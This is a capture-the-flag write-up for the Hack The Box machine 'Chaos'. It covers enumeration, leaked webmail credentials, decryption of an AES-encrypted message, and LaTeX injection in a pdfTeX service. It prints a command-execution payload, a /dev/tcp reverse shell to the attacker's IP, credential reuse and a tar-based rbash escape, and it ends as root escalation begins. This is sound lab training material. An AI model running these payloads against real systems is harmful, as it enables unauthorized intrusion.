<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical nmap scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.120 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 11:43 CET
Nmap scan report for 10.10.10.120
Host is up (0.066s latency).
Not shown: 64947 closed tcp ports (reset), 582 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: STLS CAPA RESP-CODES SASL PIPELINING UIDL TOP AUTH-RESP-CODE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: Pre-login capabilities LOGIN-REFERRALS post-login LOGINDISABLEDA0001 listed OK LITERAL+ have IMAP4rev1 more SASL-IR IDLE STARTTLS ID ENABLE
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: Pre-login capabilities LOGIN-REFERRALS post-login listed OK LITERAL+ have IMAP4rev1 more SASL-IR AUTH=PLAINA0001 ID IDLE ENABLE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
995/tcp   open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_pop3-capabilities: USER CAPA RESP-CODES SASL(PLAIN) PIPELINING UIDL TOP AUTH-RESP-CODE
|_ssl-date: TLS randomness does not represent time
10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.54 seconds
```

<br />

Open Ports:

- `Port 80` -> http 

- `Ports 110` -> pop3 

- `Port 143` -> imap

- `Port 993` -> imap (SSL)

- `Port 995` -> pop3 (SSL)

- `Port 10000` -> webmin 

<br />

# Webmin Enumeration: -> Port 10000

<br />

As we know, there is a `webmin` running on the `port 10000`, so we list it and try `defaul credentials` like admin:admin, but didn't work:

<br />



<br />

# Http Enumeration: -> Port 80:

<br />

At listing the `website` we see the following message:

<br />


<br />

Proceed to add `chaos.htb` to our `/etc/hosts` pointing to the `10.10.10.120` and list again:

<br />



<br />

The page has several sections but nothing `relevant`.

<br />

## Fuzzing:

<br /> 

Do some `fuzzing` and on the first `website` we list we find some interesting things:

<br />

```bash
❯ wfuzz -c -t 50 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.120/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.120/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000001:   200        1 L      5 W        73 Ch       "# directory-list-2.3-medium.txt"                                                                                      
000000007:   200        1 L      5 W        73 Ch       "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                      
000000003:   200        1 L      5 W        73 Ch       "# Copyright 2007 James Fisher"                                                                                        
000000009:   200        1 L      5 W        73 Ch       "# Suite 300, San Francisco, California, 94105, USA."                                                                  
000000005:   200        1 L      5 W        73 Ch       "# This work is licensed under the Creative Commons"                                                                   
000000002:   200        1 L      5 W        73 Ch       "#"                                                                                                                    
000000008:   200        1 L      5 W        73 Ch       "# or send a letter to Creative Commons, 171 Second Street,"                                                           
000000010:   200        1 L      5 W        73 Ch       "#"                                                                                                                    
000000011:   200        1 L      5 W        73 Ch       "# Priority ordered case-sensitive list, where entries were found"                                                     
000000012:   200        1 L      5 W        73 Ch       "# on at least 2 different hosts"                                                                                      
000000014:   200        1 L      5 W        73 Ch       "http://10.10.10.120/"                                                                                                 
000000013:   200        1 L      5 W        73 Ch       "#"                                                                                                                    
000000006:   200        1 L      5 W        73 Ch       "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                        
000000004:   200        1 L      5 W        73 Ch       "#"                                                                                                                    
000000793:   301        9 L      28 W       309 Ch      "wp"                                                                                                                   
000001073:   301        9 L      28 W       317 Ch      "javascript"
```

<br />

## /wp -> /wp/wordpress:

<br />

When listing this path we find a `folder` that takes us to a `wordpress` with a post `password` protected:

<br />



<br />

Click on the `post` and we see the author, `human`:

<br />



<br />

Sometimes `users` use their `own password name`, so we try entering `human` and voila!!

<br />



<br />

The post contains a `user` and some `credentials` for `"webmail"`.

<br />

# Webmail:

<br />

We start `fuzzing` to see if we can find any `subdomains` where `"webmail"` is hosted and enumerate the following:

<br />

```bash
❯ ffuf -u http://chaos.htb -H "Host: FUZZ.chaos.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 20 -fs 73

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://chaos.htb
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.chaos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 73
________________________________________________

webmail                 [Status: 200, Size: 5607, Words: 649, Lines: 121, Duration: 67ms]
```

<br />

Perfect, we have a new `subdomain`!! So enter it in the `/etc/hosts` and proceed to list the `website`:

<br />



<br />

As we can see, is a `roundcube` login panel.

Log in with the `Wordpress post credentials` successfully and once in, the `mailbox` appears to be empty:

<br />



<br />

But checking the `drafts` we find a `message` with 2 attachments:

<br />



<br />

Bring the `files` to our machine.

<br />

# Files Content:

<br />

We have two files, `en.py` & `enim_msg.txt`.

<br />

## en.py:

<br />

This file is a `python script` to encrypt files under `AES` encryption:

<br />

```python
def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = "en" + filename
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV =Random.new().read(16)

    encryptor = AES.new(key, AES.MODE_CBC, IV)

    with open(filename, 'rb') as infile:
        with open(outputFile, 'wb') as outfile:
            outfile.write(filesize.encode('utf-8'))
            outfile.write(IV)

            while True:
                chunk = infile.read(chunksize)

                if len(chunk) == 0:
                    break
                elif len(chunk) % 16 != 0:
                    chunk += b' ' * (16 - (len(chunk) % 16))

                outfile.write(encryptor.encrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()
```

<br />

## enim_msg.txt:

<br />

And this other file, is a binary file that seems to be `encrypted` with the `en.py` script:

<br />

```bash
❯ /usr/bin/cat enim_msg.txt
0000000000000234��z�سpK8�ZC����^9�kW����&w�9ܾ����E��'q�[���9�Z��⑿3����.�C�������;��3������6���R`n⑿
                                                                                                 퍦3�>�}3A����d��FY
                                                                                                                   ��YDo!�R#~�[��8����a4❄��á>)K�M^�z�I���,��ݨB���qݕYqˏR���q�M�ߟ.w�ʢF�@m�9
 �JD����(�^�7�5~�"���}��0�?�U�qX(��r�]�w���zGO
```

<br />

## Decryption:

<br />

We know that the file is encrypted with `AES` and the password, as they told us in the roundcube `message`, is `sahay`.

So I make the following python script to `decrypt` the file:

<br />

```python
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto import Random
import os

def decrypt(key, filename):
    chunksize = 64 * 1024
    outputFile = filename[2:]

    with open(filename, 'rb') as infile:
        filesize = int(infile.read(16)) 
        IV = infile.read(16)

        decryptor = AES.new(key, AES.MODE_CBC, IV)

        with open(outputFile, 'wb') as outfile:
            while True:
                chunk = infile.read(chunksize)

                if len(chunk) == 0:
                    break

                outfile.write(decryptor.decrypt(chunk))

            outfile.truncate(filesize)

def getKey(password):
    hasher = SHA256.new(password.encode('utf-8'))
    return hasher.digest()

password = "sahay"
key = getKey(password) # Password

archivo_encriptado = "enim_msg.txt" # File Name
decrypt(key, archivo_encriptado)

```

<br />

Run it and get a `base64` text:

<br />

```bash
❯ cat im_msg.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: im_msg.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odG
       │ IvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
```

<br />

Apply a `base64 decode` and store the `output` in another file:

<br />

```bash
❯ cat im_msg.txt | base64 -d > content.txt
```

<br />

Fially, we list the `content`:

<br />

```bash
❯ cat content.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: content.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Hii Sahay
   2   │ 
   3   │ Please check our new service which create pdf
   4   │ 
   5   │ p.s - As you told me to encrypt important msg, i did :)
   6   │ 
   7   │ http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3
   8   │ 
   9   │ Thanks,
  10   │ Ayush
```

<br />

The `URL` looks very `interesting`. Let's take a look!

<br />

# Pdf Generator: -> Latex Injection.

<br />

Once in the `URL`, we see a `service` in development that seems to `generate a PDF` with our `input`:

<br />



<br />

The `service` has `different templates`, but when I click in `Create PDF`, anyone of them `doesn't work`:

<br />



<br />

## Burp Suite 

<br />

Since we don't see anything, we `intercept` the request using the Template `test3` with `Burp Suite` to see what's going on behind:

<br />



<br />

As we can see, a `pdf` is being created with `pdfTeX Version 3.14159265-2.6-1.40.19`, but we don't know where it is `stored`.

To discover this, start making `fuzzing` to the url and we find more than one path:

<br />

```bash
❯ wfuzz -c -t 50 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/FUZZ/
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/FUZZ/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000001:   200        54 L     147 W      2656 Ch     "# directory-list-2.3-medium.txt"                                                                                      
000000014:   200        54 L     147 W      2656 Ch     "http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3//"                                                                        
000000007:   200        54 L     147 W      2656 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                      
000000003:   200        54 L     147 W      2656 Ch     "# Copyright 2007 James Fisher"                                                                                        
000000081:   200        18 L     82 W       1401 Ch     "templates"                                                                                                            
000000013:   200        54 L     147 W      2656 Ch     "#"                                                                                                                    
000000010:   200        54 L     147 W      2656 Ch     "#"                                                                                                                    
000000143:   200        27 L     181 W      3837 Ch     "pdf"                                                                                                                  
000000006:   200        54 L     147 W      2656 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                        
000000011:   200        54 L     147 W      2656 Ch     "# Priority ordered case-sensitive list, where entries were found"                                                     
000000009:   200        54 L     147 W      2656 Ch     "# Suite 300, San Francisco, California, 94105, USA."                                                                  
000000012:   200        54 L     147 W      2656 Ch     "# on at least 2 different hosts"                                                                                      
000000222:   200        16 L     60 W       1005 Ch     "doc"                                                                                                                  
000000008:   200        54 L     147 W      2656 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                                                           
000000005:   200        54 L     147 W      2656 Ch     "# This work is licensed under the Creative Commons"                                                                   
000000004:   200        54 L     147 W      2656 Ch     "#"                                                                                                                    
000000002:   200        54 L     147 W      2656 Ch     "#"                                                                                                                    
000000291:   200        17 L     71 W       1193 Ch     "assets"                                                                                                               
000000651:   200        16 L     60 W       1011 Ch     "source"
```

<br />

The `/pdf` path looks georgeus, let's check it:

<br />



<br />

The directory contains all the `PDF's` that we haved `created`.

Now that we know that PDF's are being `created` and where they are `stored`, it is time to try to `exploit` a `Latex Injection`, a very typical vulnerability in PDF generators like `pdfTeX`.

<br />

## Remote Code Execution (RCE):

<br />

There are a lot of different `payloads` to exploit a `Latex Injection`, but the first that I try is one to `execute a command` with a Payload founded in [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

- Payload: -> `\immediate\write18{id}`

<br />

Perfect!! We are `executing commands` as the `www-data` user:

<br />



<br />

Once we have a `RCE`, try to establish a `Reverse Shel`l to gain acces to the `victim machine`:

- Payload -> `\immediate\write18{bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'}`

<br />



<br />

We check de `listener` and... YES!

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.120] 35662
bash: cannot set terminal process group (1544): Inappropriate ioctl for device
bash: no job control in this shell
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$
```

<br />

Intrusion ready!!!

<br />

# Privilege Escalation: www-data -> ayush 

<br />

Once on the `system`, we go to the `home path` and list `two users`:

<br />

```bash
www-data@chaos:/home$ ls    
ayush  sahay
```

<br />

As we remember, before the exploitation of `pdfTeX`, we obtain the `ayush credentials` for the webmail in the `Wordpress post`, so we try to `reuse` them to log in via `ssh` in that user:

<br />

```bash
www-data@chaos:/home$ su ayush
Password: 
ayush@chaos:/home$ ls
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

<br />

Let's go! It worked! But there is a `problem`, as the ayush `shell` is apparently `restricted`.

<br />

Click `[TAB]` to see the commands that we can run:

<br />

```bash
ayush@chaos:/home$ 
!                         caller                    disown                    fc                        let                       select                    type
./                        case                      do                        fg                        local                     set                       typeset
:                         cd                        done                      fi                        logout                    shift                     ulimit
[                         command                   echo                      for                       mapfile                   shopt                     umask
[[                        command_not_found_handle  elif                      function                  ping                      source                    unalias
]]                        compgen                   else                      getopts                   popd                      suspend                   unset
{                         complete                  enable                    hash                      printf                    tar                       until
}                         compopt                   esac                      help                      pushd                     test                      wait
alias                     continue                  eval                      history                   pwd                       then                      while
bg                        coproc                    exec                      if                        read                      time                      
bind                      declare                   exit                      in                        readarray                 times                     
break                     dir                       export                    jobs                      readonly                  trap                      
builtin                   dirs                      false                     kill                      return                    true   
```

<br />

Searching in [GTFOBins](https://gtfobins.github.io/) I discover that we can `break out` the `restricted shell`:

<br />

```bash
ayush@chaos:/home$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
$ ls
/bin/sh: 1: ls: not found
$ echo $PATH
/home/ayush/.app
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ cd /home/ayush
$ cat user.txt
3e22294dc16a936e506615b4eaxxxxxx
```

<br />

Perfect!! We have the user flag!!

<br />

# Privilege Escalation: ayush -> root

<br />

Afert a time enumerating the `system`, we find a `.mozilla` directory:

<br />

```bash
$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Jan 17 21:30 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
